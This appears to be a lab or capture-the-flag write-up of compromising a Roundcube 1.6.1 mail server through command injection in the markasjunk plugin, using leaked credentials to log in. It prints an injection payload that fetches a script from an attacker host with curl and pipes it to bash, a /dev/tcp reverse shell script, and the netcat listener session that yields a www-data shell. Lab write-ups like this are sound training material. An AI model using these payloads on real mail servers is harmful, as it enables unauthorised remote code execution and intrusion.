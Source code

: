 Landing page (roundcube is running here).
![Pasted image 20240713194747.png](/images/Pasted image 20240713194747.png){: .normal }


Use the credentials found on the NFS share to login: `admin@hybrid.vl:Duckling21`.
![Pasted image 20240713194740.png](/images/Pasted image 20240713194740.png){: .normal }


We find the following mail about a spam plugin.
![Pasted image 20240713194708.png](/images/Pasted image 20240713194708.png){: .normal }


In the bottom left we can click on “About” and find the version of 1.6.1.
![Pasted image 20240713194652.png](/images/Pasted image 20240713194652.png){: .normal width="400"}


While googling for roundcube junk filter plugins we come across “markasjunk”.
![Pasted image 20240713194648.png](/images/Pasted image 20240713194648.png){: .normal }


The following [article](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/) explains how the exploit works.
```
payload format: admin&touch${IFS}test.txt&@roundcube.com
```


Start by modifying your identity by going to `Settings > Identities` next up we can modify our identity according to the previously mentioned payload template.
![Pasted image 20240713194618.png](/images/Pasted image 20240713194618.png){: .normal }


In order to trigger the payload we have to mark an email as junk.
```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.10.156.182 - - [31/Jan/2024 10:48:50] "GET / HTTP/1.1" 200 -
```


Now we can craft our reverse shell payload and execute it to gain shell access.
```
Email: admin&curl${IFS}10.8.1.49/shell.sh|bash&@hybrid.vl

Shell.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.8.1.49/1234 0>&1'
```


We now have a shell as www-data.
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234       
listening on [any] 1234 ...
connect to [10.8.1.49] from (UNKNOWN) [10.10.156.182] 38320
bash: cannot set terminal process group (641): Inappropriate ioctl for device
bash: no job control in this shell
www-data@mail01:~/roundcube$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
